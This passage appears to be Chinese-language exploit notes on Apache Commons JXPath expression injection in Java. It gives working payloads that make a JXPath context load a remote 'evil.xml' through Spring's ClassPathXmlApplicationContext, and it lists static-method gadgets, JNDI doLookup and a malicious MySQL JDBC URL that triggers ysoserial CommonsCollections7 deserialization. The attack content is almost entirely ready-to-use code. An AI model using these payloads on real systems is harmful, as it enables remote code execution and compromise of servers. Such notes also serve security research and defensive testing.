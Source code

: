 ```java
JXPathContext context = JXPathContext.newContext(null);
String code = "org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:8888/evil.xml\")";
context.getValue(code);
```

![image-20230423093401834](../.gitbook/assets/image-20230423093401834.png)

## 静态方法利用

* `javax.naming.InitialContext#doLookup`

```java
public static <T> T doLookup(Name name)
    throws NamingException {
    return (T) (new InitialContext()).lookup(name);
}
```

![image-20230423094150798](../.gitbook/assets/image-20230423094150798.png)

* ` java.sql.DriverManager#getConnection`

```java
public static Connection getConnection(String url,
                                       String user, String password) throws SQLException {
    java.util.Properties info = new java.util.Properties();

    if (user != null) {
        info.put("user", user);
    }
    if (password != null) {
        info.put("password", password);
    }

    return (getConnection(url, info, Reflection.getCallerClass()));
}

JXPathContext context = JXPathContext.newContext(null);
String code = "java.sql.DriverManager.getConnection(\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections7_calc\",\"yso_CommonsCollections7_calc\",\"root\")";
```